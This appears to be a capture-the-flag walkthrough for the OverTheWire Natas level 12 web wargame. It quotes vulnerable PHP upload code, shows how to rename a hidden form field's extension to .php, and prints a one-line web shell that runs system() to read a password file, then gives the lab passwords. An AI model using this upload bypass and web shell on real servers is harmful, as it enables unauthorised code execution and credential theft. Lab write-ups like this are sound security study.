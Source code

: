# Natas Level 12

## 🧪 Credentials

- **URL**: `http://natas12.natas.labs.overthewire.org`
- **Username**: `natas12`
- **Password**: `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`

---

## 🖥️ Steps

1. Login to the website.
2. lets see the source. what does it do? we upload a file and the webserver saves it in the `/upload` dir with a random name. the code doesn't check if the uploaded file is a image or not so we can upload a script.
```
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
3. first go to inspect elements. there is a `form` tag. in this there is an `input` which has a value of `bnx7gclgan.jpg` (yours will be different), change this to `bnx7gclgan.php` cause we want to upload a php file.
```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000">
<input type="hidden" name="filename" value="bnx7gclgan.jpg">
Choose a JPEG to upload (max 1KB):<br>
<input name="uploadedfile" type="file"><br>
<input type="submit" value="Upload File">
</form>
```
4. how let's write the script. i named it `natas12.php` an it contains this command `echo system(cat /etc/natas_webpass/natas13)`. this is the file's info
```
<?php
echo system('cat /etc/natas_webpass/natas13');
?>
```
5. and this is the pass after uploading and running it.
```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
---
